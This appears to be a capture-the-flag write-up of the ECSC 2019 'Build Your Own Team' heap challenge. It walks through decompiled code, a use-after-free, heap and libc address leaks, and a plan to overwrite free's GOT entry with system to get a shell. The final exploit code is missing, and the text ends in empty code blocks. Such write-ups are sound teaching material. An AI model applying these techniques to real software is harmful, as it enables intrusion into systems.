

Build your own team 
======================

## Some recon

```bash
checksec byot
[*] '/media/sf_CTF/2019/ecsc_fr_finals/pwn/chall/byot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Let's run the program:
```bash
./byot 
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
Please enter your choice: 4
[!] Free slot at index 0
Enter player name: Test
Enter pwn skillz [1-999]: 1
Enter crypto skillz [1-999]: 2
Enter web skillz [1-999]: 3
Enter stegoguess skillz [1-999]: 4
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
Please enter your choice: 1
Behold! Here is your dream ECSC team!
Player #0
Name: Test
- Pwn:        1
- Crypto:     2
- Web:        3
- Stega:      4
```

As the name implies, the program allows us to create our team, by creating/modifying/removing players. Each player has a name and 4 skills.
If we look into the decompiled code given by Ghidra, we can see that the player structure and the player name are allocated on the heap with malloc.
```c
    printf("[!] Free slot at index %d\n",(ulong)local_a4);
    __s = (int *)malloc(0x18);
    if (__s == (int *)0x0) {
      puts("[-] Allocation error: player struct");
    }
    else {
      memset(__s,0,0x18);
      printf("Enter player name: ");
      memset(local_98,0,0x80);
      read_line(local_98,0x80);
      sVar2 = strlen(local_98);
      pvVar3 = malloc(sVar2 + 1);
      *(void **)(__s + 4) = pvVar3;
      if (*(long *)(__s + 4) == 0) {
        puts("[-] Allocation error: player name");
      }
```

Once created the player is saved in a global array (0x3030e0) at the first empty spot found. This array can contains at most 10 players.
We can create the player struct in Ghidra and assign it to the array:


Let's have a look at the `select_player  function:
```c
void select_player(void)

{
  char local_f [3];
  uint local_c;
  
  puts("Enter the index of the player you would like to select: ");
  read_line(local_f,3);
  local_c = atoi(local_f);
  if ((local_c < 0xb) && (PLAYER_STORE[(ulong)local_c] != (Player *)0x0)) {
    DAT_003030c0 = PLAYER_STORE[(ulong)local_c];
    printf("Player at index %u is now selected!\n",(ulong)local_c);
    FUN_00101444(DAT_003030c0);
  }
  else {
    puts("[-] Invalid Index");
  }
  return;
}
```

The selected player is put in a global variable at address 0x3030c0 if it is valid (Pointer not null in the player store and index less than or equal to 10).
Now, let's look at the delete function
```c
void remove_player(void)

{
  uint uVar1;
  char local_14 [4];
  Player *local_10;
  
  printf("Enter the index of the player you would like to remove: ");
  read_line(local_14,4);
  uVar1 = atoi(local_14);
  if ((uVar1 < 0xb) && (PLAYER_STORE[(ulong)uVar1] != (Player *)0x0)) {
    local_10 = PLAYER_STORE[(ulong)uVar1];
    PLAYER_STORE[(ulong)uVar1] = (Player *)0x0;
    free(local_10->name);
    free(local_10);
    printf("[*] Player at index %u has been removed from the team\n",(ulong)uVar1);
  }
  else {
    puts("[-] Invalid player index");
  }
  return;
}
```

The delete functions, frees the memory allocated for the name, then for the player structure and sets the pointer to NULL in the player store. But it forgets to put NULL in the selected player pointer. Which means we might have a user after free. We can quickly coinfirm it by:
* Creating a player
* Selecting it
* Removing it
* Printing the selected player 
```
./byot 
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
Please enter your choice: 4
[!] Free slot at index 0
Enter player name: Test
Enter pwn skillz [1-999]: 1
Enter crypto skillz [1-999]: 2
Enter web skillz [1-999]: 3
Enter stegoguess skillz [1-999]: 4
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
7. Exit
Please enter your choice: 3
Enter the index of the player you would like to select: 
0
Player at index 0 is now selected!
Name: Test
- Pwn:        1
- Crypto:     2
- Web:        3
- Stega:      4
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
Please enter your choice: 5
Enter the index of the player you would like to remove: 0
[*] Player at index 0 has been removed from the team
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
Please enter your choice: 2
Name: 
- Pwn:        -1481538944
- Crypto:     22081
- Web:        -1481539568
- Stega:      22081
-=== Build Your Own Team - ECSC 2019 edition! ===-
1. Show the ECSC 2019 team
2. Show player
3. Select player
4. Add new player
5. Remove player
6. Edit player
7. Exit
```

The value in the skill values are leaked adressses from the heap.
```python
hex(struct.unpack("<Q", struct.pack("<i", -1481538944) + struct.pack("<i", 22081))[0])
#'0x5641a7b18280'
```

Now that we have found the vulnerability, we need to exploit it.

## Exploitation

As seen with `checksec`, there is PIE, so we first need to bypass ASLR. Once we get the address of libc and the program, we can replace the GOT address of free by system and execute `system("/bin/sh")`.

### Finding the leak

I first tested exploiting against libc 2.28, which brings new bins not present in libc2.24: tcachebins. We can see by allocating and freeing a player, the chunks end in the tcache bins:
```
gef➤  heap bins
─────────────────────────────────────────────────────────────────────── Tcachebins for arena 0x7fb1cd194c40 ───────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x10] count=1  ←  Chunk(addr=0x55f3867ff7e0, size=0x20, flags=PREV_INUSE) 
Tcachebins[idx=7, size=0x80] count=1  ←  Chunk(addr=0x55f3867ff800, size=0x90, flags=PREV_INUSE) 
──────────────────────────────────────────────────────────────────────── Fastbins for arena 0x7fb1cd194c40 ────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────────────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ───────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in unsorted bin.
──────────────────────────────────────────────────────────────────────── Small Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────────────────────────────────────────────────────────── Large Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

After allocating and freeing 9 players, one chunk ends up in the unsorted bin:

```
gef➤  heap bins
─────────────────────────────────────────────────────────────────────── Tcachebins for arena 0x7fb1cd194c40 ───────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x10] count=7  ←  Chunk(addr=0x55f3867ff3c0, size=0x20, flags=)  ←  Chunk(addr=0x55f3867ff470, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff520, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff5d0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff680, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff730, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff7e0, size=0x20, flags=PREV_INUSE) 
Tcachebins[idx=7, size=0x80] count=7  ←  Chunk(addr=0x55f3867ff3e0, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff490, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff540, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff5f0, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff6a0, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff750, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x55f3867ff800, size=0x90, flags=PREV_INUSE) 
──────────────────────────────────────────────────────────────────────── Fastbins for arena 0x7fb1cd194c40 ────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x55f3867ff280, size=0x20, flags=PREV_INUSE) 
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60] 0x00
Fastbins[idx=6, size=0x70] 0x00
─────────────────────────────────────────────────────────────────────── Unsorted Bin for arena 'main_arena' ───────────────────────────────────────────────────────────────────────
[+] unsorted_bins[0]: fw=0x55f3867ff320, bk=0x55f3867ff320
 →   Chunk(addr=0x55f3867ff330, size=0x90, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
──────────────────────────────────────────────────────────────────────── Small Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────────────────────────────────────────────────────────── Large Bins for arena 'main_arena' ────────────────────────────────────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```

The first chunk of the unsorted bin gets a pointer to the `main_arena` in libc, we can find its address:
 
```
gef➤  lookup heap libc
[+] Searching for addresses in 'heap' that point to 'libc'
[heap]: 0x000055f3867ff330│+0x0330: 0x00007fb1cd194ca0  →  0x000055f3867ff880  →  0x0000000000000000
[heap]: 0x000055f3867ff338│+0x0338: 0x00007fb1cd194ca0  →  0x000055f3867ff880  →  0x0000000000000000
gef➤  x/gx 0x00007fb1cd194ca0
0x7fb1cd194ca0 <main_arena+96>:	0x000055f3867ff880
```

`0x55f3867ff330` is the address of the chunk in the unsorted bin, we can leak it by:
* Creating the first player
* Selecting the first player
* Freeing the first player
* Allocating 9 players
* Freeing 9 players
* Print the selected player

In my libc, the offset of the leak is at `0x1bbca0`, which allows us to compute the base address of libc.

### Getting the address of the program

Now that we have the address of libc, we need to find the address of the program to overwrite the GOT.
Fortunately, there are addresses in libc which points to our program:
```
gef➤  lookup libc byot
[+] Searching for addresses in 'libc' that point to 'byot'
libc-2.28.so: 0x00007efff28f6f48│+0x3f48: 0x000055a42578b0a0  →  0x00007efff28f8760  →  0x00000000fbad2887
libc-2.28.so: 0x00007efff28f6fc0│+0x3fc0: 0x000055a42578b0b0  →  0x00007efff28f7a00  →  0x00000000fbad208b
gef➤  x/gx 0x00007efff28f6f48
0x7efff28f6f48:	0x000055a42578b0a0
gef➤  x/gx 0x000055a42578b0a0
0x55a42578b0a0 <stdout>:	0x00007efff28f8760
```

### Overwriting the GOT

Now that we have the address of libc and the program, we can compute the address of system and the GOT of the program. For the exploit, we will:
* Overwrite the GOT address of free with system
* Create a player named `/bin/sh`
* Free that player


``````
``````
``````
``````
``````
``````
